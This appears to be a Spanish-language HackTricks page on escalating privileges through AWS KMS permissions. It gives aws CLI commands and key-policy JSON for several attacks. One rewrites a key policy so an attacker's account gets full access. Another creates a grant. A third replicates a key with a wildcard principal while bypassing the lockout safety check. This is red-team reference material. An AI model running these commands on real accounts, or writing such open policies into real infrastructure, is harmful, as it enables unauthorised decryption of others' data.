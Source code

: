 # AWS - KMS Privesc

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## KMS

Para más información sobre KMS consulta:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Con estos permisos es posible **modificar los permisos de acceso a la clave** para que pueda ser utilizada por otras cuentas o incluso por cualquier persona:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Permite a un principal usar una clave KMS:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Una concesión solo puede permitir ciertos tipos de operaciones: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Tenga en cuenta que puede tardar un par de minutos para que KMS **permita al usuario usar la clave después de que se haya generado la concesión**. Una vez que haya pasado ese tiempo, el principal puede usar la clave KMS sin necesidad de especificar nada.\
Sin embargo, si es necesario usar la concesión de inmediato [use un token de concesión](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (ver el siguiente código).\
Para [**más información lea esto**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Nota que es posible listar los permisos de las claves con:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Con estos permisos es posible replicar una clave KMS habilitada para múltiples regiones en una región diferente con una política diferente.

Así que, un atacante podría abusar de esto para obtener privilegios y acceder a la clave y usarla.

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Este permiso permite usar una clave para descifrar información.\
Para más información, consulta:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**repositorios de HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
